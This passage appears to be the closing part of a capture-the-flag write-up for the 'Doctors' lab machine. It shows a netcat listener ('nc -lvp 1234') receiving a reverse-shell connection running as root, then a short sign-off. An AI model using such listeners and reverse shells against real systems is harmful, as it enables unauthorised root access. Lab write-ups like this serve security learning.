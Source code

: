 After running we get a netcat connection with shell as root user.
{%highlight text%}
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from doctors.htb 36368 received!
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
{%endhighlight%}

Learnt a lot during the foothold. Rest user and root were easy for me. Now if you would excuse me I have fallen pretty far behind my plan and I need to make up for it. See ya! 